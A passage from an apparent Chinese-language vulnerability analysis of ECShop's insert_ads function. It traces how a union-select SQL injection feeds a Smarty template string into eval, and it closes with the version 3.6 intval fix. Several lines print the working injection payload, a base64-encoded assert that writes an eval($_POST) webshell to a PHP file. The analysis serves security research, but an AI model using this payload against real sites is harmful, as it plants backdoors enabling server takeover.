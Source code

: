 ![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F45bcbad2-5745-4537-977f-08a740187c2e/E0E934AA-18FB-4976-ABA1-78840B14FA7D.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F45bcbad2-5745-4537-977f-08a740187c2e/E0E934AA-18FB-4976-ABA1-78840B14FA7D.png)

数据库position_id和position_style字段分别被union select 查询覆盖为了
`'/*`和`{$asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzIucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTExMV0pOyA/Picp'));//}xxx`

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc1e7b1d0-5646-4bf3-9b11-e904b18feefc/BBAE0A94-7F70-42CF-9F56-841E80D9BD7A.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc1e7b1d0-5646-4bf3-9b11-e904b18feefc/BBAE0A94-7F70-42CF-9F56-841E80D9BD7A.png)

查询结束之后,根据$position_style的值执行了smarty的fetch函数
`$val = $GLOBALS[‘smarty’]->fetch($position_style); //执行了smarty的fetch函数`
跟进，看到这里`$out = $this->_eval($this->fetch_str(substr($filename, 4)));`最终执行了语句

这时候filename=`” str:{$asd’];assert(base64_decode(‘ZmlsZV9wdXRfY29udGVudHMoJzEucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTMzN10pOyA/Picp’));//}xxx”`

看一下这里的字符串处理，首先使用substr切割
然后在进入到$this->fetch_str中，可以看到返回内容为<?php echo xx>格式的。

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fff20144a-9acc-482e-8023-aeda4972c024/4032A676-9DDF-44AE-BB25-F76D0DC7AD17.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fff20144a-9acc-482e-8023-aeda4972c024/4032A676-9DDF-44AE-BB25-F76D0DC7AD17.png)

在跟入到$this->get_val中，执行了`$p = $this->make_var($val);`
跟入。

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6d2af22d-07dd-4357-8d35-026ed66e5107/E50AC912-870E-47F1-986C-807C384EAA70.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6d2af22d-07dd-4357-8d35-026ed66e5107/E50AC912-870E-47F1-986C-807C384EAA70.png)

字符串处理最后返回的值为：
`$this->_var['asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzIucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTExMV0pOyA/Picp'));//']`

拼接在一起，最后返回的给前端数据为：
`<?php echo $this->_var['asd'];assert(base64_decode('ZmlsZV9wdXRfY29udGVudHMoJzIucGhwJywnPD9waHAgZXZhbCgkX1BPU1RbMTExMV0pOyA/Picp'));//>`

最终形成代码执行。

![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F290afa5f-84fd-4b95-ba3f-a85eef9c5068/A75AD523-A907-4CA2-B41C-FCB3EFF2D8F9.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F290afa5f-84fd-4b95-ba3f-a85eef9c5068/A75AD523-A907-4CA2-B41C-FCB3EFF2D8F9.png)

1. 代码执行的调用链

    ![https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9f3ea03d-ad75-47df-8264-47544076f615/A04BB526-9401-492C-B787-E95D85D4F919.png](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9f3ea03d-ad75-47df-8264-47544076f615/A04BB526-9401-492C-B787-E95D85D4F919.png)

## 修复方案

在ECShop3.6版本中insert_ads函数对$arr['num’]和$arr['id’]进行了强制类型转换。
$arr[‘num’] = intval($arr[‘num’]);
$arr['id'] = intval($arr['id']);

## 结尾

对于ECshop 3.6的强制转换还是想不出有什么Bypass的方法。